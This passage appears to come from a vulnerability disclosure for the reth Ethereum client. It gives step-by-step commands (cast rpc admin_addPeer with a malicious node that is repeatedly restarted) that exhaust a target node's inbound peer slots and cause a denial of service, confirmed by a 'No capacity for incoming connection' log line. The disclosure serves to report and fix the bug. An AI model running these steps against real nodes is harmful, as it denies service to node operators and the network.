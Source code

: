 Now make the normal node connect to the malicious node (normal node is running on default port):

```bash
cast rpc admin_addPeer enode://<malicious_node_id>@127.0.0.1:30304
```

At this point, the malicious peer should already fulfill `peer.is_banned()` on the normal reth node, because the malicious peer retries connecting.

Repeat the following steps:

1. Stop malicious node
2. Start malicious node
3. Run the command below, making the malicious node try to connect to the normal node

```bash
cast rpc admin_addPeer enode://<normal_node_id>@127.0.0.1:30303 --rpc-url http://localhost:8546
```

After repeating this process 3 times, the `--max-inbound-peers` of 3 should be reached, and the DoS has occurred. This could be automated to happen much faster, but the attack also works when executed slowly.

No inbound peers should be able to connect. This can be confirmed by trying to connect a new, normal reth peer and seeing it get rejected (make sure to use a different `--datadir` than before):

```bash
cd reth-normal
RUST_LOG="trace" target/debug/reth node -d --chain ../chain.json --datadir data2 --http --http.api "admin,debug,eth,net,trace,txpool,web3,rpc" --port 30305 --authrpc.port 8553 --http.port 8547
```

Now try to have it connect to the original node

```bash
cast rpc admin_addPeer enode://<normal_node_id>@127.0.0.1:30303 --rpc-url http://localhost:8547
```

You will see a log line similar to this on the target node:

```bash
TRACE net: No capacity for incoming connection
```
